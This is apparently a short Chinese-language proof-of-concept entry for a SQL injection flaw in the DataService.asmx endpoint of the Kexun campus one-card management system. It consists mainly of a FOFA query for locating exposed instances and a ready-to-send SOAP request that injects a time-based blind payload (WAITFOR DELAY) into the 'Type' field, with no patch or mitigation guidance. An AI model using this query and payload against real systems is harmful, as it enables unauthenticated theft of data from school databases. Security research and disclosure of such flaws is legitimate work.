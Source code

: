 # 科讯一卡通管理系统DataService.asmx存在SQL注入漏洞

科讯校园一卡通管理系统DataService.asmx存在SQL注入漏洞，未经身份验证的远程攻击者可以利用SQL注入漏洞获取数据库中的信息。

## fofa

```yaml
body="http://www.ahkxsoft.com/" && body="一卡通登录"
```

## poc

```yaml
POST /DataService.asmx HTTP/1.1
Host: {{Hostname}}
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://tempuri.org/ExeAppCmd"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <ExeAppCmd xmlns="http://tempuri.org/">
      <str>{"cmd":"get_sb_guanli","Type":"1');WAITFOR DELAY '0:0:4'--"}</str>
      <files>MTIz</files>
    </ExeAppCmd>
  </soap:Body>
</soap:Envelope>
```

